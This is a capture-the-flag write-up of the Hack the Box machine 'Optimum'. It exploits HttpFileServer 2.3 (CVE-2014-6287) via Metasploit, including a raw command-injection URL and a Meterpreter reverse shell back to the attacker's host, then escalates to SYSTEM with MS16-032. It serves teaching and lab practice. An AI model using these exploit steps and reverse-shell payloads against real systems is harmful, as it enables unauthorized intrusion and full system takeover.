

# Optimum (Hack the Box)

In the words of the author of this machine "*Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits*". I found it to be mostly true except for the privilege escalation part which also requires either a bit of experience with Windows local privilege escalation or a great deal of patience using trial and error approach.

The machine is available at https://www.hackthebox.eu/home/machines/profile/6 and has an IP address `10.10.10.8`.

## Enumeration

Starting with nmap scan of top 1000 TCP ports, we find the `HttpFileServer 2.3` service running on port `80`.

```
me@kali:~$ nmap 10.10.10.8 -A
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-24 08:54 EDT
Nmap scan report for 10.10.10.8
Host is up (0.063s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We can visit http://10.10.10.8 to take a closer look at the service.



While there are no files to search through, there is a login section. We can come back later and  try a password attack with `hydra`.

Searching for `HttpFileServer 2.3 exploit` we find an exploit at https://www.exploit-db.com/exploits/39161. Additionally, there is also a Metasploit module `exploit/windows/http/rejetto_hfs_exec`.

```
me@kali:~/Workspace$ msfconsole -q
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > search httpfileserver

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```

## Exploitation

We will use the Metasploit module `exploit/windows/http/rejetto_hfs_exec` to get a low privileged shell on the server. This module exploits the CVE-2014-6287 remote code execution vulnerability, which allows us to execute commands appended after a nullbyte `%00` like this:

```
http://10.10.10.8:80/search=%00{.exec|{cmd}.}
```

First, we select the module and take a look at the required options.
```
msf5 > use exploit/windows/http/rejetto_hfs_exec

msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
```

Set the target IP address (port is already set to `80`).
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
```

The SRVHOST and SRVPORT are also required. These will be used to host the payload:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.10.14.55
SRVHOST => 10.10.14.55
```

Then we set the payload to be "reverse-meterpreter-tcp" and the parameters required for it, in this case IP address and port.
```
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
LPORT => 4444
```

We run the exploit and we get a shell as a user named `kostas`:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.55:4444
[*] Using URL: http://10.10.14.55:8080/NSt68I
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /NSt68I
[*] Sending stage (180291 bytes) to 10.10.10.8
[*] Meterpreter session 3 opened (10.10.14.55:4444 -> 10.10.10.8:49239) at 2020-03-24 09:49:23 -0400
[!] Tried to delete %TEMP%\pfkwn.vbs, unknown result
[*] Server stopped.

meterpreter > pwd
C:\Users\kostas\Desktop
```

The user flag is in the Desktop folder:
```
meterpreter > pwd
C:\Users\kostas\Desktop
meterpreter > dir
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2020-03-30 18:22:11 -0400  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
[***REDACTED***]
```

## Privilege escalation

The user `kostas` does not have rights to view Administrator's files. Therefore, we must escalate our privileges to be able to see the root's flag.

First we migrate to a 64-bit process:
```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User            Path
 ---   ----  ----                     ----  -------  ----            ----
 0     0     [System Process]
 4     0     System
 228   4     smss.exe
 304   480   spoolsv.exe
 332   324   csrss.exe
 384   324   wininit.exe
 396   376   csrss.exe
 440   376   winlogon.exe
 480   384   services.exe
 488   384   lsass.exe
 548   480   svchost.exe
 576   480   svchost.exe
 600   2276  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 636   480   VGAuthService.exe
 668   440   dwm.exe
 676   480   svchost.exe
 704   480   svchost.exe
 764   480   svchost.exe
 840   480   svchost.exe
 892   480   svchost.exe
 956   480   svchost.exe
 1052  480   vmtoolsd.exe
 1068  480   ManagementAgentHost.exe
 1168  2664  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 1320  2596  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
 1396  480   svchost.exe
 1404  1844  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 1536  480   dllhost.exe
 1616  2608  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 1636  548   WmiPrvSE.exe
 1660  320   cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 1680  1660  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 1744  480   msdtc.exe
 1844  1320  GCodmNRuN.exe            x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radC5417.tmp\GCodmNRuN.exe
 1940  600   conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 2076  704   taskhostex.exe           x64   1        OPTIMUM\kostas  C:\Windows\System32\taskhostex.exe
 2136  2120  explorer.exe             x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe
 2236  2748  LlNugKhzdKcgjJ.exe       x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\rad6D18A.tmp\LlNugKhzdKcgjJ.exe
 2348  2720  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 2392  2832  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe
 2568  2136  vmtoolsd.exe             x64   1        OPTIMUM\kostas  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2596  2136  hfs.exe                  x86   1        OPTIMUM\kostas  C:\Users\kostas\Desktop\hfs.exe
 2608  2236  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2664  2528  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2720  1844  cmd.exe                  x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\cmd.exe
 2748  2596  wscript.exe              x86   1        OPTIMUM\kostas  C:\Windows\SysWOW64\wscript.exe
 2832  2184  cmd.exe                  x64   1        OPTIMUM\kostas  C:\Windows\System32\cmd.exe
 2936  1404  conhost.exe              x64   1        OPTIMUM\kostas  C:\Windows\System32\conhost.exe

meterpreter > migrate 2136
[*] Migrating from 2236 to 2136...
[*] Migration completed successfully.
```

We can run the metasploit exploit suggester:
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 14 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
```

However, none of the suggested exploits works (the exploit suggester is not very reliable). Based on the system information, we can try listing all available metasploit exploits at https://www.cvedetails.com/metasploit-modules/version-173070/Microsoft-Windows-Server-2012-R2.html.

After some trial and error, we find out that `ms16_032_secondary_logon_handle_privesc` should work. We set it up and run it:
```
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 8
SESSION => 8
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.55:4444
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\kbWVnCcUAgFI.ps1...
[*] Compressing script contents...
[+] Compressed size: 3600
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|

	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1348

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1356
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

lUQF27G7ojcXGNVohe7kYrP8xvIX4kr1
[+] Executed on target machine.
[*] Sending stage (180291 bytes) to 10.10.10.8
[*] Meterpreter session 9 opened (10.10.14.55:4444 -> 10.10.10.8:49264) at 2020-03-24 12:01:49 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\kbWVnCcUAgFI.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

Finally, we find the flag in the Administrator's Desktop folder:
```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Users
meterpreter > cd Administrator
meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 07:52:56 -0400  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 08:13:57 -0400  root.txt

meterpreter > cat root.txt
[***REDACTED***]
```
